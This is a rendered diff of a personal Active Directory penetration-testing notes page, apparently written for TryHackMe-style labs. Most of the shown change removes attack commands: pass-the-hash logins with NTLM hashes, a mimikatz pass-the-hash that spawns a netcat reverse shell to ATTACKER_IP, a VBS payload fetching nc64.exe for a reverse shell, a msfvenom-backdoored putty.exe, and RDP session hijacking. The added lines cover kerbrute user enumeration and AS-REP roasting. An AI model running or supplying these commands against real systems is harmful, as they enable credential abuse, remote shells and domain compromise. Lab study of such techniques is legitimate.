

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 2.1_Active_Directory.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/2.1_Active_Directory.md
+++ b/2.1_Active_Directory.md
@@ -615,60 +679,10 @@ sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH_VAlue /run:".exe command"
 ```
 
 ## With Linux
-- xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
-- psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
+- kerbrute = brute force in kerberus active directory
+  - Find users
+    - kerbrute userenum -d domain --dc ip word_list.txt
 
-- evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
-  - upload powerview.ps1, powermad.ps1
-  - import-module *.ps1
+- Find user without password (NP)
+  - GetNPUsers.py --no-pass -usersfiles {wordlist.txt} domain.com/ -dc-ip [IP-address]
 
--  xfreerdp /v:VICTIM_IP /u:USER /p:'password' +clipboard /dynamic-resolution /drive:/home/bruno/git,share /workarea /cert:ignore
-
-- rdesktop -u USER -p PASSWORD $target
-
-## Powerview
-- enumrate domains on windows
-  - powershell -ep bypass ==> allow run script
-  - . .\PowerView.ps1
-- Get-ChildItem function: ==> commands
- - Introduction: https://medium.com/@browninfosecguy/an-introduction-to-powerview-bdfd953f2c4c
-   - $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
-   - $scriptFunctions | Format-Wide -Column 4
-   - Get-NetDomainController
-   - Get-DomainPoliciy
-   - get-netuser | select-object displayname,samaccountname
-   - Get-UserProperties -Properties
-   - get-netcomputer
-   - [help] get-command
-   - get-help Get-NetComputer -examples
-   - Get-NetGroupMember
-   - Get-NetGPO  / Invoke-ShareFinder = shares
-
-
-### Overpass-the-hash / pass-the-key
-- applied to kerberos
-- we need a key ==> we dont need password
-- privilege::debug
-- sekurlsa::ekeys
-
-- Reverse sheel:
-  - sekurlsa::pth /user:Administrator /domain:za.tryhackme.com [/rc4/aes128/aes256]:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
-
-
-### Abusing Behaviour
-- find writables shares + put file with payload
-```
-# .vbs
-CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
-
-# .exe
-msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
-
-# no logged off RDP session
-PsExec64.exe -s cmd.exe
-query user
-tscon SESSION_ID /dest:rdp-tcp#6
-
-From Windows 2019 only with password
-```
-
````
Also changed, not shown: other parts of 2.1_Active_Directory.md (+139 -123 lines), 2.3_Services.md (+5 -1 lines), lpci/lpic.md (+70 -0 lines).
